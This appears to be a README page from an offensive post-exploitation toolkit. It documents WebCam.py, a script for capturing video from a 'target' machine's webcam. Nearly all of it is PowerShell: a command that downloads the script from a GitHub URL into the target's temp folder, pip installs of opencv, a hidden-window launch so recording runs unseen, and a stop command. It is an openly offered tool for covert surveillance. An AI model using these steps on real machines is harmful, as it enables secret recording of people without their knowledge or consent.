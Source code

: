 ## WebCam.py

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|WebCam|Capture video using target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[Article](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/WebCam.py1" -OutFile "$Env:TMP\WebCam.py"
```

<br />

**prerequesites checks:**
```powershell
#Check if Pthon3 its installed

#Check if opencv its installed
[bool](pip3 list|findstr /C:"opencv-python")

#Install opencv and numpy modules
pip3 install opencv-python
```

<br />

**execute:**
```powershell
#Edit WebCam.py and change next cmdline to point to our 'python\site-packages' directory
sys.path.append("c:\\users\\pedro\\appdata\\local\\programs\\python\\python39\\lib\\site-packages")

#Start capture
Start-Process -WindowStyle hidden python3 -argumentlist "$Env:TMP\WebCam.py"

#Stop capture
stop-process -name python3.9
```

<br />

**Final Notes:**
```powershell
Video recording its stored on WebCam.py current directory under the name: "outpy.avi"
```
